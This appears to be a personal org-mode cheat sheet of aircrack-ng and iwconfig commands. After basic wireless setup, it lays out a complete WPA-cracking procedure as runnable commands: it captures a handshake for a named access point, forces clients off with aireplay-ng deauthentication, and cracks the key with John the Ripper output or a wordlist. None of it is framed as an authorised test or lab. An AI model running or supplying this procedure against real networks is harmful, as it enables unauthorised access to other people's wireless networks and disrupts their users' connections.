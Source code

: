 #+STARTUP: content
#+OPTIONS: num:nil
#+OPTIONS: author:nil

* aircrack-ng commands

put wireless card into monitor mode

** start monitor mode

#+BEGIN_SRC sh
airmon-ng start wlan0
#+END_SRC

** stop monitor mode

#+BEGIN_SRC sh
airmon-ng stop mon0
#+END_SRC

** show wifi set up

#+BEGIN_SRC sh
iwconfig
#+END_SRC

**  show loaded drivers

#+BEGIN_SRC sh
airdriver-ng loaded
#+END_SRC

** show usb wifi card

#+BEGIN_SRC sh
lsusb 
#+END_SRC

show physical drivers - note the phy number in brackets [phy6]

#+BEGIN_SRC sh
airmon-ng
#+END_SRC

show physical drivers use phy number in brackets from airmon-ng

#+BEGIN_SRC sh
iw phy phy6 info | grep -A8 modes 
#+END_SRC

** managed mode

#+BEGIN_SRC sh
iwconfig wlan0 mode managed
#+END_SRC

** connect to open essid

#+BEGIN_SRC sh
iwconfig wlan0 essid networkname
#+END_SRC

** ad hoc mode

#+BEGIN_SRC sh
iwconfig wlan0 channel 1 essid myadhocnetwork mode ad-hoc
#+END_SRC

** start scanning in monitor mode

#+BEGIN_SRC sh
airodump-ng mon0
#+END_SRC

** standard streams and wpa cracking

john the ripper

aircrack-ng needs 3 things

+ bssid of access point
+ packet capture file containing handshake
+ wordlist

pipe john the ripper incremental dictonary to aircrack-ng

#+BEGIN_SRC sh
john --incremental --stdout | aircrack-ng -b 00:12:cf:a4:5b:55 -w - /root/lo1-01.cap
#+END_SRC

+ put card into monitor mode

#+BEGIN_SRC sh
airmon-ng start wlan0 (channel number)
#+END_SRC

eg

#+BEGIN_SRC sh
airmon-ng start wifi0 11
#+END_SRC

for channel 11

#+BEGIN_SRC sh
airodump-ng -c 11 --bssid (bssid) -w psk mon0
#+END_SRC

eg 

#+BEGIN_SRC sh
airodump-ng -c 11 --bssid 00:18:4d:3a:fe:e8 -w psk mon0
#+END_SRC

+ de authenticate 

#+BEGIN_SRC sh
aireplay-ng -0 5 -a ( access point bssid ) -c (client bssid ) mon0
#+END_SRC

+ word list

#+BEGIN_SRC sh
aircrack-ng -w word.lst -b (access point)  psk*.cap
#+END_SRC

